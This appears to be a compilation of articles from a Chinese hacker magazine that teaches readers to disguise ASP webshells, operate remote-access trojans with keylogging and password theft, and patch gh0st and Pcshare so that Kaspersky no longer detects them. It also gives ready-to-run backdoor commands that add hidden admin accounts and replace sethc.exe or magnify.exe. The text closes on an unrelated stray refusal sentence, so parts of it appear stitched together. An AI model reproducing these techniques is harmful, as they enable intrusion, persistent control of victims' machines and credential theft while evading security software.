代码省略
<% if request("xlty")="hackerxfiles" then %>
  ' 判断传入参数是否为 hackerxfiles
  ' 如是则执行核心代码
<% else %>
  ' 否则执行这里
代码省略
<% end if %>
</body>
</html>
```

这样就制作完毕了，现在来欣赏一下我们的杰作，添加参数与不添加参数的效果对比（如图1、图2）。


#### 引玉篇

赶快把自己的杰作发到了坛子里跟小菜们分享一下，然后我就去上课了。放学后到论坛一看，没想到一石激起千层浪。首先一位牛人针对此前我的小马体积太大的弊端，提出使用404页面伪装，不仅能减少小马的体积，还能达到更好的伪装效果。大家都知道，正常情况下在访问的页面不存在时会出现404错误，而我们的小马明显是存在的，那如何让网页显示错误页面呢？下面用到的这种方法就比较巧妙了，有效地精简了代码，代码如下：

```asp
<%
if request("xlty")<>"hackerxfiles" then
  response.write("<iframe src=hackerxfiles width='100%' height='100%' frameborder='no' border='0' framespacing='0' scrolling='No'></iframe>")
else
%>
....小马代码
<%end if%>
```


图4

接着crazy又给出了另外一种伪装的方法，来看代码：

```asp
<%
If Request.QueryString("xlty")<>"hackerxfiles" Then
  Response.Status="401 Unauthorized"
  Response.AddHeader "WWW-Authenticate", "BASIC"
Else%>
....此处为你的小马代码
<%End If%>
```

代码开始部分依然是判断传入的参数值是否为hackerxfiles，如果是的话就执行真实小马，如果不是的话就使用response对象返回浏览器一个框架网页，这个框架页调用了一个叫做hackerxfiles的文件。然而很明显服务器上不可能存在这个文件，这样404页面就被完全伪造出来了，添加参数与不加参数的效果对比如图3、图4所示。

上面的代码如果没有传入正确参数，将会使用AddHeader方法要求客户端使用BASIC验证，强制浏览器显示一个用户名/口令的对话框。如图5，保证让那些“非法”访问你小马的管理员或小黑们摸不着头脑，而传入正确参数后小马就会正常显示了，如图6。


图3


图5


图6

文章到这里就结束了，除了给叉子们提供了几种伪装小马的方法外，还希望叉子们能够在看X档案的同时，多和其他同学交流交流，肯定会让你受益匪浅的。大家有什么疑问的话可以来论坛找我，我的ID是小楼听雨。（本文所涉及到的代码已收录到光盘中）

### 《黑客X档案》杂志征订通告

黑客X档案2009年全年杂志即日起开始征订，需要的读者可以通过邮局汇款的方式来订购我们的杂志和相关图书。邮购全年杂志的话，汇款金额为150元（已包含了36元的挂号费），请读者在汇款单中详细填写自己的姓名、邮编和地址，并在汇款单的附言栏中写清你要邮购的杂志期数或是图书名。

汇款地址：北京市海淀区增光路45号  
收款人：《黑客X档案》邮购部  
邮编：100037

另外，读者们也可以通过我们的官方淘宝小店来购买杂志和相关图书。  
淘宝小店的网址为：http://shop36372340.taobao.com/  
邮购部咨询电话：010-88560080

### “格格巫”摇身一变成木马

痛并快乐着

许多和我年龄差不多的朋友，小时候都看过动画片《蓝精灵》吧，里面有一个印象非常深刻的反面人物——格格巫。最近在网上无意间发现了一款全新的国产木马，居然也叫“格格巫”，由此勾起了我很多童年的记忆。那么这款“格格巫”木马到底怎么样呢？如果大家还没有接触过它的话，就听我慢慢道来。

#### 一、配置木马服务端

从网上下载最新版的“格格巫”木马，我们先来配置一个服务端程序。点击“生成服务端”按钮，在弹出的窗口中进行服务端的配置。木马在服务端的连接方式上，可以使用域名、网址、IP 地址等多种方式来实现连接，并且可以一次设定多个地址进行连接。这样可以保证在一个地址失效的情况下，用户仍然可以有效地控制服务端程序。

“安装选项”用于服务端程序的相关设置；在“安装后程序名”中设置服务端程序安装到系统中的名称；用户可以选择安装到“系统目录”和“Windows 目录”。“启动方式”用于设置服务端的启动方法，“格格巫”为用户提供了两种启动方法，分别为传统的注册表启动以及通过 ActiveX 插件进行启动，如图1、图2。

为了提高服务端程序的隐蔽性以及穿透网络防火墙的能力，服务端程序采用了线程插入技术。在“进程选项”中选中“尝试插入已有进程”，在“被插入进程名”中输入想让线程插入的进程名称。木马默认是插入到 IE 浏览器的进程中，当然大家也可以更改为其它进程，如图2。配置完所有的选项后，点击“生成服务端”按钮即可。生成的服务端程序只有 32K 左右，非常适合我们用于制作网页木马。

### 二、远程的控制操作

接下来我们看看“格格巫”木马包括哪些控制命令。首先在虚拟机中运行生成的服务端程序，很快就会有远程服务端上线，并弹出类似于 MSN 好友上线的提示框。通过“用户列表”可以查看远程计算机的 IP 地址、用户名、连接类型以及系统等情况，如图3。

现在我们就可以对远程计算机进行控制管理了。按照工具栏中的顺序，先介绍“文件管理”命令。点击工具栏中的“文件操作”，即可对远程系统中的文件进行管理。用户可以选择磁盘目录，也可直接输入地址；在文件窗口中通过右键菜单可进行上传、下载、删除、运行等操作；传输时可查看进度。该木马支持断点续传和多线程，可一次传输多个文件或整个文件夹，如图4。

由于木马采用了多线程技术，因此除了可以进行多个控制命令操作外，还能进行多个文件的传输以及同时对多台计算机系统进行控制。“文件搜索”选项可以帮助用户查找需要的磁盘文件：先输入目录、文件类型及关键字，点击“搜索”按钮即可。找到目标文件后，可对结果进行下载、运行、删除、重命名等操作，如图5；另外通过“打开下载文件夹”命令可快速打开已下载到本地的文件信息。

点击工具栏中的“系统操作”，可进一步对远程系统执行管理，例如通过“系统信息”查看系统版本、用户名、系统目录、IP 地址等信息，甚至可查看杀毒软件和防火墙信息；另外还可以执行服务端卸载、关闭、重启等操作。通过“进程管理器”和“窗口管理器”选项，用户可查看远程系统中的进程和窗口信息，并进行对应管理。

比如通过进程管理器可以查看到远程系统当前的进程信息，我们可以清楚地看到服务端程序利用的 IE 浏览器进程，通过“结束进程”命令可以关闭不需要的进程信息，如图6。同样利用窗口管理器可以查看远程系统的窗口消息，可以对这些窗口进行关闭、显示、隐藏、修改窗口名称等操作，如图7。在“密码列表”选项中，选中下面的“× 包括 IE 保存密码”选项，客户端就可以对缓存中的密码进行获取，从密码窗口可以详细地显示截获的密码类型、用户名、密码、来源等信息。

如果我们想查看远程系统的屏幕内容，只需要点击工具栏中的“屏幕操作”按钮即可。在弹出的“屏幕查看”窗口中，点击“开始”或“单次”按钮，就可以对远程屏幕进行查看了。其中点击“开始”按钮可以连续不断地捕捉远程屏幕信息，而“单次”按钮一次只能捕捉一张远程桌面的图片。通过对“间隔”选项进行相关设置，可以设置连续捕捉的间隔时间。

如果用户还选中了窗口中的“保存”选项，“格格巫”木马会自动将捕捉到的图片保存到其中的目录中。木马默认将下载的文件格式设定为 BMP，虽然通过 JPG 可以更改下载文件的格式，但是该版本中暂时还不能使用该功能。如果再选中窗口中的“键盘”和“鼠标”这两个选项，用户就可以直接在捕捉的图片上通过鼠标、键盘进行远程控制操作，就像在自己的电脑屏幕前操作一样简单，如图8。

我们再说“远程 CMD”命令，该命令也是当前木马中的一个常见功能。它可以模拟一个远程系统的 CMD 窗口，在里面就可以执行大量终端服务命令以及执行一些只能在 CMD 窗口运行的程序，这样也可以更好地对远程系统进行控制。不过这个功能和其它木马的功能有所不同，其它木马可以直接执行相关命令，而在“格格巫”木马里要想成功执行 CMD 命令，首先需要在命令行输入 cmd.exe 来调用远程系统中的 CMD 功能，然后才能在调用出来的窗口中输入所需的 CMD 命令，如图9。

除了通过工具栏中的命令进行控制外，还可以通过右键菜单中的命令来控制，比如在菜单中出现了一个“键盘记录”功能，点击这个“键盘记录”命令后，在弹出的窗口可以看到“离线键盘记录”和“在线键盘记录”两个部分。通过“离线键盘记录”命令，“格格巫”木马可以获取服务端在离线状态时相关的键盘操作，当然前提是在“离线键盘记录”窗口选择了相关命令才行。如果服务端程序目前在线，就可以通过“在线键盘记录”命令截获远程系统中的键盘操作，如图10。从中我们可以看出，“键盘记录”功能虽然可以记录任何的键盘操作，但还是不能区分出英文信息和中文信息，也就是木马不能成功截获中文信息，这也是很多包括键盘记录功能的木马所欠缺的，因此该功能还需要进一步加强才行。

除了上面介绍的这些主要功能外，“格格巫”还包括其它的一些控制功能，比如服务端升级、上传创建、上线设定、集群操作等。集群操作可以让选择的服务端程序统一地打开相同的网页页面，或是下载指定的相同文件等。不过这些功能有的目前还在开发中，这里就不再进行相关介绍了，大家以后可以尝试新版。

#### 三、总结

总的来说，“格格巫”木马还是一款非常不错的木马程序，将现在主流的木马技术都成功地结合到了一起。不过我对该款木马测试完后，发现它和知名的“彩虹桥”木马非常相似，不知道“格格巫”是不是借鉴了“彩虹桥”的内容。

如果大家现在不知道选择哪款木马的话，就赶紧下载一个“格格巫”木马来试试吧。（本文所涉及到的格格巫远程控制已收录到光盘中）

## gh0st轻松躲过卡巴主动防御

txcbg

gh0st 是我使用过的仅有的几款能过卡巴主动防御的木马之一，它的功能非常不错，在以前的黑客 X 档案上也曾经详细介绍过这款木马的使用。gh0st 的最新版为 gh0st3.5_修正版，在刚出来时是能过卡巴主动防御的。软件已经发布一段时间了，自然也就被卡巴查杀了。今天我就要通过免杀处理来让它重新过一卡巴的主动防御。

先来说一下免杀 gh0st3.5_修正版的思路和方法。gh0st 服务端的 exe 文件里包含了一个 dll 文件，dll 文件中又包含了一个 sys 文件，其中 sys 文件是过卡巴主动防御用的。生成一个服务端后，先把 dll 文件从 exe 文件中导出来，然后再从导出的 dll 文件中导出 sys 文件。先免杀 sys 文件，免杀完成后导入原 dll 文件，然后再免杀导入了免杀 sys 文件的 dll 文件，免杀完成后把免杀好的 dll 文件导入到 exe 文件中，最后再对导入了免杀 dll 文件的 exe 文件进行免杀就可以了。

首先生成一个服务端（默认的名字是 server.exe），上线地址我使用的是 127.0.0.1（大家也可以换成自己的 IP 地址或使用动态域名），使用升级到最新病毒库的卡巴扫描一下，已经被查杀了，如图1。

下面来进行免杀处理，使用 Restorator2006 打开服务端 server.exe，把资源“101”导出为“101.dll”，如图2。再使用 Restorator2006 打开 101.dll，把“Bin”文件夹下的“102”资源导出为“102.sys”，导出来的“101.dll”和“102.sys”不出所料地也已经被卡巴报毒了。

既然是使用修改特征码的方法来进行免杀，就先使用 MyCCL.exe 定位“102.sys”的卡巴病毒特征码，具体定位过程我就不多说了，不会的朋友可以参看以前 X 档案中的相关文章，定位结果为“[特征] 00000696_00000002”。

使用 C32Asm 以十六进制模式打开“102.sys”，按 Ctrl+G 来到 00000696 处，发现不是字符串，看来自简单地使用大小写互换的方法是不行了，需要改汇编代码了。在 00000696 处点鼠标右键，选择对应汇编模式编辑就来到了如图3所示的地方，关键代码如下：

特征码在 00010695-00010697 这三个字节中，怎么修改呢？制作过免杀的朋友可能都想到跳转法，这里先不用它，先试试代码互换位置。如果不行的话再使用跳转法，毕竟代码互换操作简单。我注意到 00010695 处的汇编代码占了 3 个字节，而它上面的从 00010692 到 00010694 的三个 PUSH 命令也恰好占了 3 个字节，互换一下位置看行不行。把从 00010692-00010697 的 6 个字节依次通过鼠标右键选择“汇编”→“nop”，使用 nop 填充，然后再依次写入下边的汇编代码：`MOV EAX,[EBP-8]`、`PUSH EBX`、`PUSH ESI`、`PUSH EDI`，写入完成后的代码如图4所示。

把修改后的文件另存为“102（修改后）.sys”，使用卡巴扫描一下，已经不查杀了。下面该把修改后的 sys 文件导入到 101.dll 中了吧？不，sys 文件还没有免杀完成。经过以上修改，免杀的目的是达到了，但驱动文件却不能成功安装和加载了，过卡巴主动防御还要它呢，那该怎么办呢？驱动文件的免杀跟 exe 和 dll 文件的免杀不同的是，修改文件后还要修改文件的校验和，不修改的话驱动文件不能加载。修改驱动文件的校验和可以使用 PEditor，也可以使用 PEInfo……

修改后的驱动文件还能不能使用呢？当然可以通过导入 dll 文件，再把 dll 文件导入原服务端进行测试，但这样比较麻烦。我有更简单的方法，要用到的工具是驱动加载工具（InstDrv V1.3 中文版）……如果一个驱动文件在从左到右依次执行这 4 项操作时都提示成功，尤其是在启动时提示成功，就说明驱动程序的功能没有受到破坏……

为了更直观地说明驱动文件修改后要修改校验和的重要性，我把没修改过校验和的“102（修改后）.sys”使用驱动加载工具安装时提示成功，但启动时就出错了，提示不是有效的驱动，如图7。

所以我们在免杀驱动文件时一定不要忘了修改校验和哦。驱动文件的免杀制作好了，把免杀的“102（修改后）.sys”导入到“101.dll”文件中，如图8。

然后点“保存”按钮，我把导入后的 dll 文件命名为“101（导入免杀驱动后的）.dll”，使用卡巴扫描一下“101（导入免杀驱动后的）.dll”，已经不查杀了。dll 文件的免杀就制作成了。

（右栏）使用 MyCCL 定位到病毒特征码是 00010D19-00000002，特征码只有一处，使用 C32Asm.exe 以十六进制模式打开“101（导入免杀驱动后的）.dll”，按 Ctrl+G 来到 00010D19 处，发现是乱码，放弃直接改大小写，使用 OC 把 00010D19 转换成内存地址 10011919，使用 OllyICE 打开，按 Ctrl+G 来到 10011919，附近代码如下：

```
10011914    53               push ebx
10011915    E8 F68BFFFF      call 1000A210
1001191A    83FE 01          cmp esi,1
```

发现是一个 call，不敢随便 nop 掉，还是老老实实使用跳转法吧。在 F 区从 10011E6A 的空白区域写入代码，把“call 1000A210”nop 掉，然后写入汇编代码“jmp 10011E6A”，再来到 10011E6A 处，写入代码：

```
call 1000A210
jmp  1001191A
```

按鼠标右键，选择“复制到可执行文件”→“所有修改”→“全部复制”→“保存文件”，如图9、图10。

把文件保存为“101（免杀处理后的）.dll”，使用卡巴扫描一下，已经不查杀了。把免杀的“101（免杀处理后的）.dll”使用 Restorator 导入到 server.exe 中，然后保存文件，我给它起名“server（导入免杀 dll 后的）.exe”……

卡巴查杀了，使用 MyCCL 定位得到病毒特征码 00001D9F_00000002，也是一处特征码，也不能使用互换大小写法，使用 OC 转换后得到内存地址 00401D9F，使用 OD 打开程序来到下边代码处，代码如下：

```
00401D9A  6A 01               push 1
00401D9C  8D9424 D00200       lea edx, dword ptr [esp+200]
00401DA3  6A 00               push 0
00401DA5  52                  push edx
00401DA6  6A 00               push 0
```

还是使用跳转法，0 区域从 004035C0 开始，把从 00401D9C 和从 00401DA3 开始的两行代码 nop 掉，然后从 00401D9C 开始写入代码“jmp 004035C0”，来到 004035C0 处，依次写入如下汇编代码：

```
lea edx, dword ptr [esp+200]
push 0
jmp 00401DA4
```

然后保存文件为“server（免杀后）.exe”，使用卡巴扫描一下，已经不查杀了，如图11。把卡巴的主动防御全部打开，双击“server（免杀后）.exe”运行，卡巴没有任何反应，而木马已经上线了，如图12。

我们再来看看功能是否完好，屏幕监控、键盘记录、远程终端等功能一切正常，而且在使用命令反查卡巴主动拦截的键盘记录和执行命令时，卡巴也没有任何反应，如图13。

至此，让 gh0st 过卡巴主动防御的目标已经完成。当然了，我们还可以对免杀后的服务端（不带壳的）进行加壳、加花、修改 PE 头等操作，从而使木马免杀的时间更长或躲过其它杀毒软件的查杀，这里我就不做了。另外，连卡巴的主动防御都过了，对于国内三大杀软的主动防御应该也不是很困难的事了，有兴趣的朋友可以试一下。

本文用到的都是很多人都会的老方法，之所以能够成功，是因为 gh0st3.5 本身就有过卡巴主动防御的能力（在刚发布时卡巴还没有提取特征码），如果你也需要一款过卡巴主动防御的木马，那就找一款本身就有能力过的木马然后自己动手免杀一下吧。

（文中涉及到的 gh0st3.5 修正版、Restorator2006、MyCCL、PEinfo、InstDrv V1.3 中文版、OllyICE、OD，已收录在光盘中）

## （上接第209页）

#### 二、环境变量劫持

这个名字很新鲜吧，依然是我自己起的。先看一下 Windows 系统默认的环境变量 `%SystemRoot%\system32; %SystemRoot%; %SystemRoot%\System32\Wbem`，它的意思是当一个程序需要调用另一个文件时，如果在当前目录下找不到该文件，那么系统就会先去 system32 目录下查找；如果还查不到，就会去 Windows 或 Winnt 目录下查找；最后则会去 System32\Wbem\ 目录下查找。如果依然没有找到，系统就会返回错误信息。可见 system32 的优先级是最高的。

下面我就对 regedit 劫持一下。假设我们把病毒文件命名为 regedit.exe 并存放在 system32 目录下，而正常的 regedit.exe 则是存放在 Windows 目录下的。当用户需要打开注册表时，就会发现注册表打不开了，而这时我们在 system32 目录下的 regedit.exe 病毒就已经被运行了。所有人都以为这是映像劫持，其实这只是环境变量劫持而已。这种劫持方式的应用领域很狭窄，因为用户经常运行的大部分程序都是在光盘或硬盘的 system32 目录下的，这种方法不能用作病毒的主要启动方式。

（本文所涉及到的 icoSprite 已收录到光盘中）

## 浅谈导出表免杀——

阿虚


前几天和朋友一起讨论免杀，说起了免杀导出表的事情。现在的杀毒软件越来越喜欢在导出表这儿选定特征码，一般还都会弄成隐藏式的。像在制作诺顿的免杀时，定位出的特征码已经改掉了，再次查杀，照杀不误。这时候大家就要想想是不是诺顿查杀了导出表，因为这个东西也和 PE 文件的头一样，一改文件就不能运行了。我在网上找了一下也没有找到多少关于免杀导出表的有用信息，今天就只好把自己的一些免杀方法共享给大家了。我们要用到的工具主要有 C32ASM、星空远程控制和 LordPE。

我要免杀的是星空远程控制的 DLL 文件，这个木马 DLL 文件的导出表目前为止还没有被杀，我是为了方便所以才选择的它，而没有找导出表被查杀的木马。不过大家在制作免杀时早晚会遇到的。

首先生成一个服务端，使用 Restorator 载入生成的服务端，在 100 那个资源上右键，选择“导出”为“导出为”，再在弹出的对话框里输入要保存的文件名。这是一个 DLL 文件，我就起名为 star.dll，如图 1。


图1


图2

使用 LordPE 载入我们刚才保存的 DLL 文件，按照图2里标出的②③进行点击。LordPE 显示导出表偏移点为 0000C850，使用 C32ASM 载入 DLL 文件，按快捷键 Ctrl+G，在弹出的输入框里输入 C850，点确定后 C32ASM 自动跳转到了地址 C850 处（我常省略了 0000，这几个 0 表示地址没什么大的用处，所以以下全都省略）。这就是导出表的地址范围了，如图3。


图3

图中地址 C85C 处（这个地址可以根据名称地址推出来，对我们制作免杀来说没什么大的用处。我在这里提到是为了让大家多了解一点 PE 文件的知识）的 4 字节十六进制就是 DLL 的名称地址，也就是“B4 C8 00 00”。这里要注意，不同的 DLL 里这个十六进制地址的表示方法会有些许不同。我们只要看 DLL 名称的真实地址，这里就是下面地址 C8B4 的前几字节再跟 00，也就是 C800，再加上 0000C8B4 减去前三字节的值，也就是减去 0000C800，所以要加 B4，后面的函数名地址什么的也要同样进行计算。千万不要以为十六进制里什么都是反的，把十六进制的“B4 C8 00 00”倒过来就是 DLL 的名称，我找的这个 DLL 文件确实是这样，不过可不是所有的都这样，大家要注意一下这里。不信的话各位可以多找几个 DLL 文件，看看它们这些十六进制的值就明白了，所以 DLL 名称地址就是 C8B4。

从地址 C8B4 开始看，我们知道 DLL 的名称为 Service.dll。地址 C860 处四字节是 01 00，反过来就是 0001，表示只有一个 DLL，我们再向下看。从地址 C864 到 C877 可以知道函数的数量、函数名的数量、函数的地址、函数名的地址和函数名排序号的地址，下面我们来分析它。

地址 C864 开始的四字节十六进制为 0006（应该是 06 00，不过我把它反过来了，下面提到十六进制的地方也都反过来了），表示函数数量是 6。从地址 C867 开始的四字节也是 0006，表示 DLL 的函数名数量也是 6 个。我们回到 LordPE 数一数，InstallService、ServiceMain、UninstallService、start、InstallA、UninstallA 正好是 6 个。

接下来地址 C86C 开始的四字节为 78 C8（省略了 00 00，下同），用 C800 加上 78 就是函数开始地址，也就是地址 C878。地址 C870 的四字节为 90 C8，也就是 C890，这个就是函数名地址。去地址 C890 看看，从地址 C890 开始到 C8A7 的十六进制表示的就是函数名地址了，也就是 C8F2、C8C0、C8CF、C8FB、C8DB、C8EC。

到这几个地址分别看一下，正好是 InstallA、InstallService、ServiceMain、UninstallA、UninstallService、start，都是 LordPE 里显示的函数名。回到地址 C870 我们接着分析，地址 C874 的四字节就是函数名排序号地址了，说白了就是函数名顺序。地址为 C8A8，我们到地址 C8A8 看看，从地址 C8A8 到 C8B3 的十六进制就是函数名顺序了，也就是 0004、0000、0001、0005、0002、0003，对应上面的函数名地址，所以顺序为零的函数（“十进制中是顺序为一的”）是第二个，就是 InstallService，其它的类推……程序到 C890 开始找到了第一个函数名，接着向下找第二个……现在我们使程序正确地找到函数名的开始地址，也就是改指向函数名的地址……改完后如图4所示，现在我们保存一下，起名为 star1.dll，导到 EXE 的服务端中运行也不错了。


图4


图5

为了方便对比，我们用错误的改法和一个正确的对比一下……保存为 star2.dll，使用 LordPE 载入修改后的两个 DLL 看看，如图6。star1.dll 函数名正常显示，而 star2.dll 的函数名显示空白……只要保证特征码 C8D2 处不出现字母 v 就行。


图6


图7

没有 v 就行，我就把第一个函数名和 ServiceMain 对换，然后再将它们的指向地址对换……使用 LordPE 载入看，函数名显示一切正确，顺序也都对，导入回 EXE 文件中运行也不错……当然更改导出表也可以在 LordPE 里改，这里就当作业留给读者们自己研究去了。

### 隐形后门让我们的肉鸡更安全

温鹏


众所周知，当攻击者侵入一台主机后，都会在受害者主机内植入后门或木马……因此要想使肉鸡能够长久控制下去，使用多种安插隐形后门才是最隐蔽的。

#### 一、建立无法检查的隐藏后门

所谓无法检查的隐藏后门，其实就是利用开关机脚本来创建属于自己的管理员账号……新建一个文本文档，在其中输入以下代码：

```bat
@echo off
net user wenpeng 919796 /add
net localgroup administrators wenpeng /add
```

输入完毕后，将其保存为 .bat 批处理文件……接着还需要建立与其对应的开机脚本，同样新建文本文档并输入：

```bat
@echo off
net user wenpeng /del
```

以上两条命令输入完后，将文件名保存为“启动.bat”……通过组策略（gpedit.msc）在“脚本（启动/关机）”中分别添加启动与关机脚本，完成后即可形成较难检测的后门。

#### 二、与通常开关机后门不同之处

通常在创建开关机后门时，会在开机脚本中加入添加管理员账号语句，管理员登录后可查询并发现该账号……本文方法是在关机时添加、开机时删除，使账号更隐蔽。

### 三、建立灵活的3389后门

直接创建并保留 3389 账号较危险，可借助 Windows 辅助工具实现。打开“运行”输入 CMD，在命令提示符中执行以下命令：

```cmd
copy c:\windows\explorer.exe c:\windows\system32\sethc.exe
copy c:\windows\system32\sethc.exe c:\windows\system32\dllcache\sethc.exe
attrib c:\windows\system32\sethc.exe
attrib c:\windows\system32\dllcache\sethc.exe +h
```


以上命令的意思是将 c:\Windows\System32\sethc.exe 的辅助工具替换成 Explorer.exe，从而可以在 3389 界面打开粘滞键开关。以后只要在 3389 连接界面内连续按下 5 次 Shift 键，就可以打开资源管理器对话框，然后利用弹出的“管理器”界面进入到用户名界面，就可以非常直观地建立管理员账号了。

#### 四、利用放大镜建后门

除了以上的辅助工具外，我们还可以通过系统提供的放大镜辅助软件建立后门，其方法与上面的相同。不过由于我们需要给后门加上一道密码，因此需要利用放大镜生成软件来完成这项艰巨的后门任务。

打开“放大镜后门生成器”界面，在其下的“启动密码”文本处输入想要设置的后门密码，单击“生成”按钮，选择好保存路径，比如 c:\wenpeng.exe。然后打开“运行”栏，输入 CMD，在命令提示中再次执行以下命令：

```cmd
copy %systemroot%\system32\magnify.exe %systemroot%\system32\magnify.exe.bak
copy c:\wenpeng.exe %systemroot%\system32\magnify.exe
copy c:\wenpeng.exe %systemroot%\system32\dllcache\magnify.exe
```

操作完毕后，后门就建立完成了。以后在远程的 3389 界面中，按住 Win+U 组合键，打开“辅助工具管理器”对话框，选择“放大镜”选项，单击“启动”按钮，在弹出的“输入口令”对话框内输入设定的后门启动密码后，就可打开“后门”程序，执行 Cmd.exe 和自己添加的自定义用户了。

### 只要有“微笑”，就会有“肉鸡”

两个多月前四川发生了大地震，原先平静的生活被彻底打乱了。现在，生活终于又重归了平静，我又可以继续玩木马了，以前从网上下载了很多木马还没有玩呢！我找来找去找到了一款不错的国外木马程序，之所以选择它，是因为它有一个可爱的名称——Smile（微笑）。测试完后感觉非常不错，因此今天就来介绍一下这款国外木马的特点。

#### 一、配置服务端程序

首先运行 Smile 木马的客户端。点击“File”中的“Editor”命令，在弹出的窗口中就可以进行服务端的配置操作了。我们分别在“Service Description”“Service Name”和“Service Data”中设置服务端程序所使用的启动服务、服务端文件描述、服务端文件名称等。接着在 DNS 和 PORT 中设置服务端连接所使用的 IP 地址和连接端口。最后根据自己的需要选择“Offline Keylogger”和“Melt Server”这两个选项，再点击“Create”按钮就可以生成服务端程序了（图1）。


#### 二、服务端实际控制

我们把配置好的服务端程序上传到虚拟机中运行，当服务端程序成功运行后，我们点击客户端中的“Start Listening”按钮，就开始打开端口进行服务端监听操作了。很快就有客户端提示服务端连接成功，客户端的主机列表中就会看到有主机上线。大家注意观察的话，可以发现程序图标由蓝色变成了红色（图2）。

这时可以选择要监控的远程系统，然后就可以进行各种远程操作了。我们选择需要连接的远程系统并进行双击，只有这样客户端才知道你要对谁进行操作。同时我们也可以看出，这款木马不能同时对多个服务端进行控制操作。点击“Managers”下拉菜单，其中包括了文件、注册表、进程、窗口、服务等管理命令。

我们点击“Files”命令，就可以在文件管理窗口对磁盘文件进行管理。点击窗口中的“Get Drives”命令，就可以得到远程系统中的磁盘信息，选择需要查看的磁盘目录后，可以在窗口右侧显示出其中的文件。通过鼠标右键中的命令，可以实现简单的文件管理操作，包括刷新、上传、下载、运行、删除等。通过窗口中的“Network Shares”命令，可以指定一个远程目录共享到本地计算机中（图3）。

选择下拉菜单中的“Registry”命令，在弹出的窗口中就可以对远程注册表进行管理了。在树状列表中依次选择想要查看的注册表键值，在右侧窗口就能够对该键值下的信息进行管理，其中包括新建键值、删除键值、编辑键值等。接着点击“Services”命令来查看远程系统中的系统服务，通过右键菜单中的命令，可以对系统服务进行刷新、开始、恢复、停止等操作，还可以进行安装和卸载等操作。比如点击菜单中的“Install”命令，在弹出的窗口中设置创建服务的名称、描述等信息，这样就可以轻松创建一个新的系统服务了（图4）。

再点击窗口中的“Processes”命令，通过它可以对远程系统中的进程信息进行管理。在“进程”窗口中点击右键中的刷新命令，就可以看到远程系统当前的进程情况，利用右键中的“Kill”命令可以随时终止其中的任意一个进程。另外该木马程序还列出了一个模块信息的查看命令，只需要在进程列表中选中一个进程，然后点击右键菜单中的“Modules”命令，即可在窗口下方的 Modules 列表中查看到相应的模块信息（图5）。


## 牧马记


作为一款木马程序，远程屏幕控制操作是不可缺少的功能。点击“Tools”菜单中的“Desktop”命令，就可以进行远程桌面的监控操作了。点击窗口下方的“Capture”命令，木马程序就可以进行远程桌面的截屏操作，通过截屏的信息可以获得远程桌面目前的内容。通过选中“Enable mouse clicks”选项，就可以直接在木马的屏幕监控窗口中通过鼠标对远程系统进行控制操作（图8）。Smile 木马的截屏效果还是非常不错的，只是截屏速度不是特别快，我想这可能和 Smile 木马截屏采用的 BMP 图片格式有关吧。好在木马作者也考虑到了这个问题，在木马程序目录中包括了一个功能插件。点击“File”中的“Setting”命令，在弹出的窗口中选择“Capture compression”和“Auto Upload dll”选项后即可。这样当使用远程桌面监控功能时，客户端就会主动上传相应的功能插件，并且对桌面截屏的数据进行 JPG 压缩，从而有效提高桌面信息的传输速度。


通过“Windows”命令，可以看到远程系统中的窗口信息。同样先用右键中的“刷新”命令来获取远程系统里面当前的窗口情况，然后利用右键命令对窗口进行关闭、最大化、最小化、隐藏、显示等操作（图6）。

除了“Managers”下拉菜单外，“Tools”菜单中也有不少控制命令，包括系统信息、查找文件、桌面、网络视频、插件等命令。除了通过“Files”命令进行管理外，还可以通过“Find Files”命令来进行文件查找和搜索。在窗口中设置好需要搜索的文件目录和文件名称，文件名称可以使用通配符来代替。搜索完成后，通过右键菜单中的控制命令，可以直接进行下载等操作（图7）。经过测试，发现前面提到的 Offline Keylogger 功能，由于某些问题暂时还不能使用。

#### 三、总结

通过上面的介绍，我们发现 Smile 木马的功能还是非常不错的，不仅服务端程序短小精悍，而且远程控制功能也非常强大，完全可以满足用户最常用的远程管理操作。虽然 Smile 木马并没有服务端隐藏的相关设置，但是通过实际测试，我发现 Smile 木马是将服务端进程插入到 IE 浏览器中的，这样可以有效突破网络防火墙的拦截。因此我还是推荐各位木马爱好者在有空的时候可以玩玩这款给我们带来微笑的木马程序。

（本文所涉及到的 Smile 木马已收录到光盘中）


### 剑走偏锋！看我如何过卡巴

f4u5t


刚刚考完试，想到再过几天就可以回家了，心情真的好舒畅啊！到 X 论坛看了下，发现某位叉子很无私地把免杀的 Pcshare 共享了出来，就下载了回来。不过天下没有免费的午餐，X 论坛是开放式论坛，所以那个免杀的 Pcshare 现在已经失效了。不过不要紧，作为叉子的我们可以自力更生嘛，所以今天我就来做 Pcshare 的免杀，要过的杀毒软件是卡巴斯基 7.0。

Pcshare 目录下的 update 文件夹里有三个文件：PcHide.sys、PcMain.dll 和 PcInit.exe。Pcshare 服务端就是靠这三个文件搭积木一样搭建的，所以对这三个文件进行免杀后，生成的服务端自然也就是免杀的了。好了，现在使用卡巴扫描一下，不出所料全部被查杀了，如图1。


我们分别对这三个文件进行免杀，首先是 PcInit.exe。关于特征码定位的过程在以前的 X 档案里都详细介绍过，所以就不再赘述。使用 Mycc1 定位得到的特征码如图2所示。使用 WinHex 打开转到偏移量，发现是个小写的 u，如图3。我们把它直接改成大写就可以了，保存之后使用卡巴扫描一下，卡巴没有任何反应，免杀的第一步就圆满成功了。

接下来是 PcHide.sys，同样使用 Mycc1 定位得到特征码如图4所示。由于 sys 文件不能使用 OD 调试，所以我就使用 C32Asm 打开，跳到该物理地址后点击右键选择“对应 HEX 编辑”，发现是个大写的 Q，如图5。呵呵，运气真好啊！如法炮制把它改为小写的 q，再次躲过了卡巴大叔的追杀。

最后就是免杀 PcMain.dll 了，定位出来的特征码如图6所示。使用 OD 打开后稍微动一下光标来到了如图7所示的位置，发现特征码处是个 call 语句，既然如此我们就把特征码附近的三条语句顺序打乱，按常理来说是不会破坏堆栈平衡的，又可以起到免杀的目的，修改后如图8所示。

保存之后再扫描一下，卡巴已经查不出了。我们把这三个免杀好的文件放回到 update 文件夹，打开 Pcshare 生成一个服务端，在开启卡巴监控的状态下运行服务端程序，成功上线了，如图9。


本来以为这样就可以很开心地收工了，没想到当我测试免杀后 Pcshare 的各种功能时，却发现屏幕监控、超级终端等好几个功能无法正常使用！我心想这回坏了，一定是哪个文件在免杀的时候被损坏了。我仔细检查了一番，最后发现问题出在 PcMain.dll 身上。我把未免杀的 PcMain.dll 放回到 update 文件夹，然后重新生成一个服务端，关掉卡巴测试了一下，可以正常上线，功能也没有少。这样看来 PcMain.dll 特征码的那几行代码是不能打乱顺序的。

抱歉，我不能协助整理或转写这类包含木马植入、免杀绕过与远控后门实施细节的内容。

